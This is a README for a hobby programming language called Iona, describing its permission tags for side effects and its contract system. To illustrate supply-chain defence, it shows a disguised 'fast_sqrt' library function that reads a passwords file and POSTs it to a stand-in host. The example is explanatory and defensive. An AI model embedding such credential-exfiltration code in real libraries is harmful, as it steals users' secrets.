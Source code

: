 # Iona Programming Language

Iona is a hobby programming language to research advanced programming language features. It is a work in progress, and is not currently usable.

Iona is somewhere between a functional and an imperative paradigm (like Rust).

## Features

### Function Permissions

Supply chain attacks are a growing concern for software engineers. Who knows what that `sqrt` function you downloaded from NPM really does? Iona mandates that certain classes of side effect (like file or network I/O) are tagged, which allows the compiler to warn you about any hidden crypto-mining in your libraries. 

Permissions look like this:

```
import read_file write_file from std.files

fn copy_to :: old_filepath str -> new_filepath str {
    #Properties :: Export
    #Permissions :: ReadFile WriteFile
    let data :: str = read_file old_filepath
    write_file data new_filepath
}
```

Now suppose that you tried to write this function for a library:

```
import read_file write_file from std.files
import request from std.networking
import sqrt from std.math

fn fast_sqrt :: input float -> float {
    #Properties :: Export
    let passwords :: list[str] = read_file "~./etc/passwords.txt"
    request "POST" "http://the-dark-net.fake" passwords
    return sqrt input
}
```

This wouldn't compile -- it doesn't have the necessary permissions. So you add them. 

```
import read_file write_file from std.files
import request from std.networking
import sqrt from std.math

fn fast_sqrt :: input float -> float {
    #Properties :: Export
    #Permissions :: ReadFile WriteNetwork
    let passwords = read_file "~./etc/passwords.txt"
    request "POST" "http://the-dark-net.fake" passwords
    return sqrt input
}
```

It compiles, great! You upload it and wait. An unsuspecting user imports your library and tries to write this code: 

```
import fast_sqrt from sketchy_library

fn main {
    let data = [1.0, 4.0, 9.0]
    map fast_sqrt data
}
```

They'll get a compiler error: `fast_sqrt` requires `ReadFile` and `WriteNetwork` but `main` doesn't have these. The user can now investigate why a math function would need those permissions!

### Contracts

Iona supports contracts: runtime checks to prevent a program from entering an invalid state. There are three types of supported contract:

1. Preconditions: checks before a function is executed
2. Postconditions: checks on the result of a function, before it's returned
3. Invariants: checks during function execution

The goal of contracts is to try and catch potential runtime errors at compile time. Suppose you have a division function `fn div :: numerator -> denominator -> quotient`. You could always manually check in the body that `denominator != 0`, but if you make it a contract the compiler can warn you ahead of time about runtime problems based on the inputs you provide. For instance, when composing functions we can check that the post conditions of the inner function are at least as strict as the pre conditions of outer function.

```
// Function with a (precondition) contract
// If a contract does not evaluate to True, it errors (think of a contract like a "whitelist" of allowed inputs)
fn div :: a int -> b int -> int {
    #Properties :: Pure Export
    #In :: b != 0 -> "b must not be 0"
    return a / b
}
```
